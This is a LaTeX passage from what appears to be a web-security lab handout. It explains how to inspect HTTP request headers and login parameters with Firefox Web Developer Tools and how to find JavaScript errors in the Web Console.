	
\includegraphics[width=0.95\textwidth]{\devtoolFigs/webdevtools_02_two_panes.png}
\end{center}
\caption{HTTP Request and Request Details in Two Panes}
\label{fig:webdevtools_02_two_panes}
\end{figure}



The details of the selected request will be visible in the right pane.
Figure~\ref{fig:webdevtools_03_post_headers} shows the details of the login request in the
\texttt{Headers} tab (details include URL, request method, and cookie). One can observe both
request and response headers in the right pane. To check the parameters involved in an HTTP
request, we can use the \texttt{Params} tab. Figure~\ref{fig:webdevtools_03_post_params} shows
the parameter sent in the login request to Elgg, including \texttt{username} and
\texttt{password}. The tool can be used to inspect HTTP GET requests in a similar manner to HTTP POST requests.

\begin{figure}[htb]
 \centering
 \subfigure[HTTP Request Headers]{
        
\includegraphics[width=0.6\textwidth]{\devtoolFigs/webdevtools_03-1.png}
        \label{fig:webdevtools_03_post_headers}
 }
 \subfigure[HTTP Request Parameters]{
        
\includegraphics[width=0.35\textwidth]{\devtoolFigs/webdevtools_03-2.png}
        \label{fig:webdevtools_03_post_params}
 }
 \caption{HTTP Headers and Parameters}
\end{figure}


\paragraph{Font Size.} The default font size of Web Developer Tools window is quite small. It
can be increased by focusing click anywhere in the Network Tool window, and then using
\texttt{Ctrl} and \texttt{+} button.


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{JavaScript Debugging}
\label{web:sec:jsdebugging}

We may also need to debug our JavaScript code. Firefox's Developer Tool can also help debug
JavaScript code. It can point us to the precise places where errors occur. The following
instruction shows how to enable this debugging tool:

\begin{lstlisting}
 Click the "Tools" menu --> Web Developer --> Web Console
 or use the Shift+Ctrl+K shortcut.
\end{lstlisting}


Once we are in the web console, click the {\tt JS} tab. Click the downward pointing arrowhead
beside {\tt JS} and ensure there is a check mark beside {\tt Error}. If you are also interested
in Warning messages, click {\tt Warning}. See Figure~\ref{devtool:fig:errocheckmark}.


\begin{figure}[htb]
\begin{center}
  
\includegraphics[width=0.4\textwidth]{\devtoolFigs/errorCheckMark.png}
\end{center}
\caption{Debugging JavaScript Code (1)}
\label{devtool:fig:errocheckmark}
\end{figure}
 

If there are any errors in the code, a message will display in the console. The line that
caused the error appears on the right side of the error message in the console. Click on the
line number and you will be taken to the exact place that has the error.
See Figure~\ref{devtool:fig:console}.


\begin{figure}[htb]
\begin{center}
  
\includegraphics[width=1.0\textwidth]{\devtoolFigs/consoleError2.png}
\end{center}
\caption{Debugging JavaScript Code (2)}
\label{devtool:fig:console}
\end{figure}
 




 




% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

\seedsubmission



\end{document}



